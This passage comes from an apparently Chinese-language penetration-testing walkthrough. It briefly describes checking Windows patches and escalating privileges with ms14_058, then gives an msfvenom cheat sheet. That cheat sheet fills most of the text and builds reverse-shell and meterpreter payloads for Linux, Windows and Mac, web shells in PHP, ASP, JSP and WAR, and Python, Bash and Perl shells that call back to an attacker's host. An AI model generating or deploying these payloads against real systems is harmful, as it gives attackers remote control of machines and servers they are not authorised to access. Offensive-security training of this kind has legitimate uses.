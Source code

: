 systeminfo查看补丁信息：

[![](assets/1701827767-957145b47c7aea3eef2008f3492feeae.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231202191219-a85623e0-9103-1.png)

利用ms14\_058提权成功

### powershell上线：

通过制作powershell来上线：

[![](assets/1701827767-6c5e93b33fcdbb2dfe3d466714dbe22b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231202191228-ae005d38-9103-1.png)

### MSF上线：

#### msf生成木马:

```plain
Linux
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=< Your IP Address> LPORT=< Your Port to Connect On> -f elf > shell.elf

Windows
msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f exe > shell.exe

Mac
msfvenom -p osx/x86/shell_reverse_tcp LHOST= LPORT= -f macho > shell.machoWeb Payloads

PHP
msfvenom -p php/meterpreter_reverse_tcp LHOST= LPORT= -f raw > shell.php

ASP
msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f asp > shell.asp

JSP
msfvenom -p java/jsp_shell_reverse_tcp LHOST= LPORT= -f raw > shell.jsp

WAR
msfvenom -p java/jsp_shell_reverse_tcp LHOST= LPORT= -f war > shell.war

Python
msfvenom -p cmd/unix/reverse_python LHOST= LPORT= -f raw > shell.py

Bash
msfvenom -p cmd/unix/reverse_bash LHOST= LPORT= -f raw > shell.sh

Perl
msfvenom -p cmd/unix/reverse_perl LHOST= LPORT= -f raw > shell.pl
```
